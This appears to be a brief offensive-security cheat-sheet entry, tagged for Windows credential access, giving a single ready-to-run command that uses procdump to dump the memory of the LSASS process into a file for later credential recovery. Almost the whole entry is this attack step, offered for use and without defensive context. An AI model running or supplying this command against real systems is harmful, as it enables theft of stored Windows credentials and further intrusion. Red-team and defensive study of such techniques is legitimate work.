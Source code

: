 # procdump

% procdump, lsass, credentials
#plateform/windows  #target/local   #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## procdump - dump lsass - local
```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```